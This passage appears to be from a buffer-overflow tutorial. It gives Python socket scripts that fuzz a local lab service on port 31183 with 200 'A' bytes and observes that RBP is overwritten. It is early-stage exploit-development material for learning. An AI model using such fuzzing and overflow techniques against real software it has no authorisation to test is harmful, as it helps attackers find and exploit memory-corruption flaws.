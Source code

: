 Now that we have EBD setup, let's start writing the Python script. 

```python
import socket
host = '127.0.0.1'
port = 31183

buffer = ''

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

# Fuzzing the Program

Let's start by sending a buffer consisting of 200 A's and see if we can overflow a buffer. 

```python
import socket
host = '127.0.0.1'
port = 31183

buffer = b'A'*200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

After running the script and pausing at the breakpoint we previously set, we can see the address RBP is pointing to has been overflowed with A's. 
